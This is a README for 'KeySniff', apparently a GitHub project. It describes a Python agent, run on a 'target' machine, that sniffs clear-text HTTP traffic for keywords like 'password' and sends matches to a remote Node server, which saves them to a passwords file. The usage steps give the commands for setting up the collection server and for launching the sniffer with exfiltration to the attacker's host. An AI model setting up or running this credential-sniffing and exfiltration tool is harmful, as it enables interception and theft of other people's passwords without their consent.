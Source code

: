 # KeySniff
A multi threaded script for sniffing clear-text (HTTP) data and sending filtered keywords to a remote server.

KeySniff has two parts:
1. Agent - a python script that uses scapy to capture packets from a specific port and filter for a filtered keyword (like "password"). After finding the keyword, the agent will send it over HTTP to a remote server.
2. Server - a NodeJS server that waits for POST requests that contain a client's key for validating the source, and if the key is valid, the server stores the data from the client in a text file on the server.

# Usage

## On Server's Side
1. Install NodeJS on your server.
```bash
curl -sL https://deb.nodesource.com/setup_16.x -o /tmp/nodesource_setup.sh;
chmod +x /tmp/nodesource_setup.sh
/tmp/nodesource_setup.sh
sudo apt install nodejs -y
```

2. Clone the server repository and CD into the server directory.
```bash
https://github.com/RedWhisperer/KeySniff.git
cd KeySniff/ServerSide
```

3. Install the server NPM dependencies:
```bash
sudo npm install
```

4. Initiating the server:
```bash
sudo node server.js --port 8080 --key secret-key --output passowrds.txt
```

## On Target's Side
1. Make sure that the target machine supports Python3 and install the dependencies:
```bash
sudo pip3 install scapy
```

2. Initiate the client with the correct configurations as arguments:
```bash
sudo python3 keySniff.py -p [PORT] -i [INTERFACE] -f [My-Keyword] -s http://[NODE-SERVER-IP]/upload -k [SECRET-KEY]
```

3. When the keyword will be captured, the agent will send it to the Node server and you'll see in the file.
